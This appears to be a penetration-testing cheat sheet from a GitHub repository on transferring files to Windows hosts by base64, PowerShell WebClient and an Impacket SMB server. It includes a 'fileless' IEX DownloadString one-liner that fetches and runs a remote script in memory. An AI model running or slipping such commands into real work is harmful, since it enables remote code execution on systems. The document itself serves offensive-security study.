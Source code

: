 # Windows
[PowerShell Base64 Encode & Decode](https://github.com/h4ck3r-cat/file.transfers/blob/main/Windows.md#powershell-base64-encode--decode)
<br>
[PowerShell Web Downloads](https://github.com/h4ck3r-cat/file.transfers/blob/main/Windows/Windows.md#step-2-encode-file-to-base64)
<br>
[SMB Downloads](https://github.com/h4ck3r-cat/file.transfers/blob/main/Windows/Windows.md#smb-downloads)
## PowerShell Base64 Encode & Decode
This is the simplest and most conveinient method and does **not** require a network connection

### Step 1: Check MD5 Hash
```bash
$ md5sum file.txt
f4d11dce99a848fe050ab3ef2c966b62  file.txt
```
### Step 2: Encode File to Base64
```bash
$ cat file.txt |base64 -w 0

YXJvbgpwd25tZW93CmVnb3Rpc3RpY2Fsc3cKYWRtaW4K
```
### Step 3: Decode in Powershell
```powershell
PS> [Text.Encoding]::Utf8.GetString([Convert]::FromBase64String('YXJvbgpwd25tZW93CmVnb3Rpc3RpY2Fsc3cKYWRtaW4K')) | Out-File -FilePath "C:\Path\To\Decoded\Output.txt" -Encoding UTF8
```
### Step 4: Check MD5 Hash in PowerShell
```powershell
PS> Get-FileHash Output.txt -Algorithm md5

F4D11DCE99A848FE050AB3EF2C966B62
```
If the MD5 hashs are the same, we succeeded in trasfering the file.
> [!IMPORTANT]
> If the MD5 hashs do not match then you might have a few reasons why:
> 1. Line Endings: Different operating systems use different conventions for line endings in text files. Windows typically uses CRLF (\r\n), while Unix-based systems use LF (\n). If the line endings are different, it can result in different MD5 checksums.
> 2. Encoding Differences: If the files are text files and have different character encodings (e.g., UTF-8 vs. UTF-16), this can result in different MD5 checksums.
> 3. Whitespace Differences: Extra whitespace (leading/trailing spaces, tabs, etc.) can also cause differences in MD5 checksums.

By addressing these factors, you should be able to get consistent MD5 checksums for files with identical content.

## PowerShell Web Downloads
PowerShell provides a versatile array of **file transfer** capabilities, with the *System.Net.WebClient* class serving as a reliable tool for downloading files across **HTTP**, **HTTPS**, or **FTP** protocols. Within this class, various methods cater to different download requirements. The following table outlines key **WebClient** methods designed for downloading data from a resource, each catering to specific scenarios:

| Method              | Description                                                                                             |
|---------------------|---------------------------------------------------------------------------------------------------------|
| OpenRead            | Retrieves data from a resource and returns it as a Stream.                                               |
| OpenReadAsync       | Asynchronously obtains data from a resource without blocking the calling thread.                         |
| DownloadData        | Downloads data from a resource and returns it as a Byte array.                                           |
| DownloadDataAsync   | Asynchronously downloads data from a resource, returning a Byte array without blocking the calling thread.|
| [DownloadFile]()        | Downloads data from a resource and saves it to a local file.                                             |
| DownloadFileAsync   | Asynchronously downloads data from a resource to a local file without blocking the calling thread.       |
| [DownloadString]()      | Retrieves a String from a resource and returns it as a String.                                            |
| DownloadStringAsync | Asynchronously downloads a String from a resource without blocking the calling thread.                    |

### PowerShell DownloadFile Method
You can download files using the following powershell code:
```powershell
PS> (New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
```

### PowerShell DownloadString - Fileless Method
Fileless attacks operate by utilizing certain functions within an operating system to download and execute a payload directly. Instead of saving a PowerShell script to the computer's storage, we execute it straight from the computer's memory using the Invoke-Expression cmdlet or its shorthand alias, IEX as follows:
```powershell
PS> IEX (New-Object Net.WebClient).DownloadString('<Target File URL>')
```

### PowerShell Invoke-WebRequest
```powershell
PS> Invoke-WebRequest <Target File URL> -OutFile <Output File Name>
```
## SMB Downloads
The **Server Message Block protocol (SMB protocol)** that runs on port **TCP/445** is common in enterprise networks where Windows services are running.

In order to transfer files, we need to create an SMB server in our machine with *smbserver.py* from Impacket and then use **copy**, **move**, **PowerShell Copy-Item**, or any other tool that allows connection to SMB.

### Step 1: Create the SMB Server
We will be using **Impacket**, if you dont have it installed you can do that using this bash code:
```bash
$ sudo apt-get install python3-impacket
```

Once we have that installed we can move on to actually creating the smb server:
```bash
$ sudo impacket-smbserver <Share Name> -smb2support <Share Folder>
```

Example:
```bash
$ sudo impacket-smbserver sharefolder -smb2support /tmp/share
```
### Step 2: Copying a File from the SMB Server
Log into the SMB server using smbclient:
```powershell
PS> smbclient \\<IP Adrress>\\<Share Name>
```

Example:
```powershell
PS> smbclient \\10.10.10.10\\sharefolder

Password for [WORKGROUP\user]:
Try "help" to get a list of possible commands.
smb: \>
```
**Note:** in this case we did not specify a password so any password will be suffecient for accessing the files
